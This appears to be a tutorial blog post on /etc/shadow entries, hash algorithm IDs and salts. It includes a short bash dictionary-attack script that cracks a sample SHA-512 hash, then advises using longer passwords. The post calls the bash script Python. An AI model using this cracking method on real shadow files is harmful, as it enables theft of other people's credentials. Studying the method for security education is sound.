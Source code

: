 ## Hi

In this blog , I want to discuss, how to crack password hashes of Linux users? 

Like any username - password system , Linux don't save password as plain text. Instead It stores password hashes. 

Every time you entered user password to login , it generates it's hash and compare it with hash it stored.

You might wondering where these password hashes are stored. Linux stores those hashes in a special file named **shadow** at **/etc/shadow** location.

shadow file has entry of each users. An entry in shadow file(each line is an entry) is look like below:

**myuser:$6$m/6Wre3j$jxlFgso6ZbYtWCOvZh8Im3k7lSj8c2zPXmlhrisk3Rj/oyAn9oO0s9qFQPQ4TEzXrzRhPbaheI4AtkEQiJ8w4/:18766:0:99999:7:::**

above string has lot of information in itself. If you break above line by delimiter **":"** the  following substring represents:

- **'myuser'**  --> USERNAME

- **'$6$m/6Wre3j$jxlFgso6ZbYtWCOvZh8Im3k7lSj8c2zPXmlhrisk3Rj/oyAn9oO0s9qFQPQ4TEzXrzRhPbaheI4AtkEQiJ8w4/'** --> PASSWORD

- **'18766'** --> days from Jan 1, 1970 when last time password changed

- **'0'** --> minimum number of days remain when user can change password

- **'99999'** --> maximum number of days after which user is forced to change password

- **'7'** --> number of days to show warning before password has to be changed

So password is stored in second substring i.e 

$6$m/6Wre3j$jxlFgso6ZbYtWCOvZh8Im3k7lSj8c2zPXmlhrisk3Rj/oyAn9oO0s9qFQPQ4TEzXrzRhPbaheI4AtkEQiJ8w4/

this password string made of three parts i.e

**$algorithm_id$SALT$HASH_VALUE**

- **algorithm_id** is an id which represent what algorithm is used while generating hash 

different algorithms and their respective id are:

- - **$1** --> MD5

- - **$2a**  or **$2y** --> BLOWFISH

- - **$5** --> SHA-256

- - **$6** --> SHA-512

- **SALT** is a random bits which used to increase complexity hash or make hash more difficult to crack

- **HASH_VALUE** is the final hash generated by algorithm

In above case algorithm is **SHA-512** , SALT is **"m/6Wre3j"**  and hash is **jxlFgso6ZbYtWCOvZh8Im3k7lSj8c2zPXmlhrisk3Rj/oyAn9oO0s9qFQPQ4TEzXrzRhPbaheI4AtkEQiJ8w4/**

After this much information it is very easy to write a python script to crack password hash from a dictionary also known as **dictionary attack** 

Lets write our python code to crack hash value

```shell
#!/bin/bash
filename='wlist.list'
password='$6$m/6Wre3j$jxlFgso6ZbYtWCOvZh8Im3k7lSj8c2zPXmlhrisk3Rj/oyAn9oO0s9qFQPQ4TEzXrzRhPbaheI4AtkEQiJ8w4/'
salt='m/6Wre3j'
while read line; do
t_hash=`mkpasswd -m sha-512 $line $salt`
if [ $password == $t_hash ]
then
        echo "password found: ${line}"
        exit
fi
done < $filename
echo "no password matched"
```

running above code generates below output

```python
┌──(joker㉿gotham)-[~/data/.hacking/password_cracking]
└─$ ./cracker
password found: zaxscdvf

```

as you can see password come out to be **zaxscdvf** which id 8 length alpha-pass which is very very weak as per modern tech.

if you are wondering how much time it takes to crack passwords of different lengths, below is some data:

![19.png](https://github.com/gurus158/blogs/blob/gh-pages/images/19.png?raw=true)



So you must have passwords at least 12 character long for better security in todays world.